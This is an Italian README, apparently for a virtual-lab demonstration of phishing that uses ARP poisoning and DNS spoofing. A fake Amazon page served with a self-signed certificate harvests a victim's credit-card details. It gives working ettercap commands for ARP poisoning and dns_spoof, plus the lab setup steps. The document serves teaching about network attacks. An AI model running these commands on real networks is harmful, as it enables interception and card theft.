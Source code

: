 # Phishing w/ DNS Spoofing & ARP Poisoning

Il phishing è un attacco che mira ad esporre i dati privati dell'utente. In questo esempio di attacco, i target sono le informazioni della carta di credito di un utente inesperto attraverso un reindirizzamento su un falso sito di amazon che richiede di autenticarsi per continuare a navigare.

## ARP Poisoning

A livello Datalink, l'attacco è reso possibile grazie ad un poisoning delle tabelle ARP della vittima e del gateway, mettendosi in mezzo alle comunicazioni dei due. Ciò è reso possibile dall'assenza di controllo e di affidabilità sui messaggi ARP che viaggiano sulla rete, permettendo all'attaccante di spacciarsi per chi in realtà non è.

## DNS Spoofing

A livello applicativo, una volta messi in mezzo alle comunicazioni, l'attacco è completato rilevando eventuali richieste di risoluzione del dominio target (amazon.com) della vittima, e modificando le risposte ricevute dal server DNS, reindirizzando l'utente ad un indirizzo IP diverso da quello associato al vero Web Server. Anche in questo caso, la mancanza di controlli di integrità sui messaggi DNS lascia piede libero all'attaccante, che può modificare a suo piacimento il messaggio di risposta.

# Environment Setup

## Macchine Virtuali

Per riprodurre l'attacco, sono necessarie 4 macchine virtuali:

- Alpine Linux 3.20.0 (DNS Server)    192.168.160.5
- Alpine Linux 3.20.0 (Web Server)    192.168.161.5
- Kali Linux 2024-2 (Victim)          192.168.162.2
- Kali Linux 2024-2 (Attacker)        192.168.162.3

## Routers

Per configurare i router, utilizziamo un template container Docker. Su GNS3, navigare in "Edit/Preferences", "New" e selezionare "Run this Docker container on the GNS3 VM", per poi "Next". Creare un nuovo template con "New image" e scrivere "Frrouting/frr:latest" nell'area testo "Image name", per poi cliccare su "Next". Specificare 3 come numero di interfacce e andare su "Next" 3 volte, per poi terminare su "Finish".

Una volta organizzati i componenti come nella rete mostrata in "Network/NetworkConf.png", configurare i router secondo quanto indicato nei file di configurazione associati. Configurare le macchine virtuali con gli indirizzi IP statici indicati sopra, ricordandosi di specificare per la vittima e per l'attaccante l'indirizzo IP del Server DNS che abbiamo creato.

## Server DNS

Per prima cosa, installare il package Bind per gestire il Server DNS:

~~~console
$ sudo apk add bind
~~~

e copiare i file nella cartella "DNS Server" nella directory

~~~console
/etc/bind
~~~

## Web Server

Per gestire il Web Server, installare il package Apache2:

~~~console
$ sudo apk add apache2
~~~

e copiare il file "index.html" dalla directory "Web Server" nella directory

~~~console
/var/www/localhost/htdocs
~~~

Per simulare una situazione reale, creiamo un certificato che simuli il certificato reale di amazon.com:

~~~console
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/ssl/private/apache-selfsigned.key -out /etc/ssl/certs/apache-selfsigned.crt
~~~

inserendo le informazioni richieste. Inserire, infine, il file di configurazione "httpd.conf" dalla directory "Web Server" nella directory

~~~console
/etc/apache2
~~~

per abilitare l'uso del certificato.

## Attacker

Per configurare l'attaccante, inseriamo il contenuto di "Attacker/Docs" nella directory

~~~console
/var/www/html
~~~

e creiamo un falso certificato che emula quello creato in precedenza per far sembrare l'attacco di phishing più credibile:

~~~console
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/ssl/private/apache-selfsigned.key -out /etc/ssl/certs/apache-selfsigned.crt
~~~

Inseriamo, poi, il file "default-ssl.conf" dalla directory "Attacker" nella directory

~~~console
/etc/apache2/sites-available
~~~

e completiamo il setup inserendo "etter.dns" dalla directory "Attacker" nella directory

~~~console
/etc/ettercap
~~~

# Realizzazione Attacco

Per attivare l'attacco, accediamo al terminale dell'attaccante ed eseguiamo il comando

~~~console
$ sudo ettercap -T -q -i eth0 -M arp:remote -S /192.168.162.1// /192.168.162.2//
~~~

per attivare l'ARP Poisoning. Infine, attiviamo il DNS Spoofing basato sulle configurazioni che abbiamo inserito con il comando

~~~console
$ sudo ettercap -T -q -i eth0 -P dns_spoof
~~~

Noteremo che da un qualsiasi browser, in caso di ricerca di "amazon.com", la vittima sarà automaticamente reindirizzata al sito web che abbiamo creato sulla macchina dell'attaccante.
